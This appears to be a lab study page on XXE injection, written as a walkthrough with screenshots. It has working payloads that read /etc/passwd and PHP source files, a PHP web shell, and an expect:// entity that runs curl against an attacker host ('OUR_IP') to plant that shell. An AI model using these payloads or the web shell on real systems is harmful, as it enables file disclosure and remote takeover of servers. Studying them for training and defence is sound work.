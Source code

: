 # 🧆 XML External Entity (XXE) Injection

`XML External Entity (XXE) Injection` vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions.

## Local File Disclosure

When a web application trusts unfiltered XML data from user input, we may be able to reference an external XML DTD document and define new custom XML entities.We can try to define external entities and make them reference a local file, which, when displayed, should show us the content of that file on the back-end server.

Let's imagine a form that treats data like this:

<figure><img src="../../../../.gitbook/assets/image (1427).png" alt=""><figcaption></figcaption></figure>

the form appears to be sending our data in an XML format to the web server, making this a potential XXE testing target. Suppose the web application uses outdated XML libraries, and it does not apply any filters or sanitization on our XML input.

the value of the `email` element is being displayed back to us on the page. To print the content of an external file to the page, we should `note which elements are being displayed, such that we know which elements to inject into`

Let's try to define a new entity and then use it as a variable in the `email`

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

<figure><img src="../../../../.gitbook/assets/image (1428).png" alt=""><figcaption><p><code>This confirms that we are dealing with a web application vulnerable to XXE</code>.</p></figcaption></figure>

Now let's exploit this ->

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

<figure><img src="../../../../.gitbook/assets/image (1429).png" alt=""><figcaption></figcaption></figure>

We can try to to read the source code of the `index.php` file

<figure><img src="../../../../.gitbook/assets/image (1430).png" alt=""><figcaption><p>Did not work</p></figcaption></figure>

because `the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity`

So we need to use PHP wrapper filters that allow us to base64 encode certain resources 'including files', in which case the final base64 output should not break the XML format

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

<figure><img src="../../../../.gitbook/assets/image (1431).png" alt=""><figcaption><p><code>This trick only works with PHP web applications</code></p></figcaption></figure>

## Remote Code Execution with XXE

to gain code execution over the remote server. The easiest method would be to look for `ssh` keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making a call to our server. If these do not work, we may still be able to execute commands on PHP-based web applications through the `PHP://expect` filter

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands.

```shell-session
ElFelixi0@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
ElFelixi0@htb[/htb]$ sudo python3 -m http.server 80
```

we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

{% hint style="info" %}
replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax
{% endhint %}

_**Try to read the content of the 'connection.php' file, and submit the value of the 'api\_key' as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (1433).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (1434).png" alt=""><figcaption></figcaption></figure>
